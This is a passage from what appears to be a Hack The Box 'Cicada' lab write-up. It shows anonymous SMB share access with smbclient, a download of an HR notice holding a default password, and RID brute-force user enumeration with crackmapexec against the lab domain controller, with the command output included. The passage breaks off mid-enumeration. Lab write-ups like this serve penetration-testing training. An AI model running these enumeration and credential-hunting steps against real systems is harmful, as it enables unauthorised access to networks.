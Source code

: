 
Tried anonymous login on some folders, found that HR is accessible

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -N //10.10.11.35/HR 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

                4168447 blocks of size 4096. 57914 blocks available
smb: \> 

┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -N //10.10.11.35/HR 
Try "help" to get a list of possible commands.
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (4.4 KiloBytes/sec) (average 4.4 KiloBytes/sec)
smb: \> 

```

Let's analyze this file:
![](attachment/9e484ac257c8f23b6e9d6f3bbc7fc9b1.png)
We have a default passowrd, but don't know the related username to use it with, so let's try to enumerate the usernames:

```shell
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ crackmapexec smb cicada.htb -u guest -p '' --rid-brute
SMB         cicada.htb      445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         cicada.htb      445    CICADA-DC        [+] cicada.htb\guest: 
SMB         cicada.htb      445    CICADA-DC        [+] Brute forcing RIDs
SMB         cicada.htb      445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         cicada.htb      445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         cicada.htb      445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         cicada.htb      445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
```